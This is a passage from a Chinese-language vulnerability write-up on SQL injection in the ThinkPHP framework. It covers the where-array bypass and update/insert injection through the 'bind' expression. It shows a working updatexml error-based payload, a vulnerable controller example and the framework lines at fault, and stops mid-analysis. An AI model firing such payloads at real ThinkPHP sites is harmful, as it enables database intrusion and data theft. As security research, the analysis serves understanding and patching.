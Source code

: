 
ThinkPHP/Library/Think/Model.class.php 648
![image.png](https://sqlmap.wiki/images/image%20(29).png)


第二个条件中，where中的值为数组。我们可以直接传入payload


```php
id[where]=1 and updatexml(1,concat(0x7e,user(),0x7e),1)#
```
这样值的类型为字符串，进行了绕过
![image.png](https://sqlmap.wiki/images/image%20(30).png)
#### 总结


刚才演示的是select，find，delete都有这样的问题，这里就不再演示了


### update/insert 注入



原理没啥好说的，跟前面exp一样,都是直接拼接导致了注入。




#### 分析


```php
<?php
public function bindsql()
    {
        $name['id']=I('id');
        $pass['pass']=I('pass');
        $data=M('user')->where($name)->save($pass);
        var_dump($data);
    }
?>
```




#### 关键代码


ThinkPHP/Library/Think/Db/Driver.class.php 567-568


```bash
elseif('bind' == $exp ){ // 使用表达式
                    $whereStr .= $key.' = :'.$val[1];
```




可以看到，虽然是通过直接拼接的。但是在关键字key后面是加了一个冒号的，如果还按照exp那篇文章的payload打，会出现这个问题
![image.png](https://sqlmap.wiki/images/image%20(31).png)

